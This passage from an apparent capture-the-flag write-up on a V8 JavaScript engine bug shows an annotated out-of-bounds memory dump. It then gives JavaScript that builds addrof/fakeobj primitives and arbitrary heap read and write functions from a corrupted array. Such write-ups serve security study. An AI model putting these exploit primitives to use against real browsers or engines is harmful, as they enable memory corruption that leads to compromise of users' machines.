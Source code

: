 The last for-loop here exists so that I can find where `obj_arr` and `float_arr` lie, relative to `oob_arr`:

```js
1.1 0x3ff199999999999a
8.5544293515e-314 0x408042205
1.6289800116869642e-269 0x821362d08212e89 # <-- lower 32-bits here are obj_arr.map. figured out this one with trial and error, because it's impossible to run oob reads on the debug build for d8.
4.763796150676412e-270 0x804222d08243a41
8.5560618926e-314 0x408368d71
8.5544304345e-314 0x408042a95
1.1 0x3ff199999999999a # <-- this is the beginning of float_arr.elements
1.2 0x3ff3333333333333
4.763796150676345e-270 0x804222d082439f1 # <-- lower 32-bits here should be float_arr.map
8.5560619084e-314 0x408368d91
```

Getting the `addrof()` (named `getaddr()` here, because the authors named it that way in `exploit.js.template`)  and `fakeobj()` primitives are easy once you know the offsets:

```js
// create various primitives using the 3 arrays
let obj_backing_offset = 2   // empirical values, find using %DebugPrint() and logging
let float_backing_offset = 6
let obj_map = oob_arr[obj_backing_offset+obj_arr.length/2].flw();        // array map is located after elements
let float_map = oob_arr[float_backing_offset+float_arr.length].flw();
function getaddr(obj) {
        obj_arr[0] = obj;
        return oob_arr[obj_backing_offset].flw();
}
function fakeobj(addr) {
        oob_arr[obj_backing_offset] = addr.i2f();
        return obj_arr[0];
}
console.log('float_map (oob): '+hex(float_map));
```

Everything after that is really just standard stuff. Go for limited r/w first:

```js
// further upgrade to heap-wide r/w
float_arr[0] = float_map.i2f();
let elements_store = getaddr(float_arr)-BigInt(float_arr.length)*0x8n;
var fake_float_arr = fakeobj(elements_store);
function read64(addr) {
        float_arr[1] = (addr-0x8n+0x800000000n).i2f();
        return fake_float_arr[0].f2i();
}
function write64(addr, v) {
        float_arr[1] = (addr-0x8n+0x800000000n).i2f();
        fake_float_arr[0] = v.i2f();
}
function read32(addr) { return read64(addr).i2f().flw(); }
console.log('float_map (read32): '+hex(read64(getaddr(float_arr))));
```
